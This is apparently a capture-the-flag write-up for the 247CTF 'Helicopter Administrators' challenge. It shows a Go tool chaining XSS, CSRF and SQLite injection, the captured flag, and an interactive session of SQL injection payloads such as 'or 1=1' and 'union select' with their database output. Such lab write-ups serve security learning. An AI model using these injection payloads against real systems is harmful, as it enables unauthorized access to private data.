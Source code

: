 ### Helicopter Administrators Solved ( Rated Hard ) - 300 points

```
This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't? 
```
This challenge is compensation of bypassing blacklist, Advanced XXS, CSRF, SQLite Injeciton
1- Change 	`urlBase` varible to your generated url:

```go
string = "https://feef92c0eb0c14bf.247ctf.com
```

Then you are ready to go:
To get only the flag, run the following:


```go
*$ go run cmd/xss/main.go              
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
{"message":[[1,2,3,4,5,"247CTF{c9355024736f1fdfa121e243c7024540}"]],"result":"success"}

*$ 
```

You also have interactive shell with the backend of the `sqlite`

```sh
*$ go run cmd/xss/main.go -h
Usage of /tmp/go-build950372382/b001/exe/main:
  -interactive
    	[+] Interactive to manual SQL injection!
exit status 2
*$ 
```

Lets try to interactive with the backend databse:

```bash
*$ go run cmd/xss/main.go --interactive
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
#-> 1
{"message":[[1,"Michael Owens",14,22,3,"Sydney, Australia"]],"result":"success"}

#-> 1337 or 1=1;--
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

#-> 1337 order by 1;--
{"message":[],"result":"success"}

#-> 1337 order by 7;--
{"message":"SQLite error: 1st ORDER BY term out of range - should be between 1 and 6","result":"error"}

#-> 1337 union select 1,2,3,4,5,6;--
{"message":[[1,2,3,4,5,6]],"result":"success"}

```

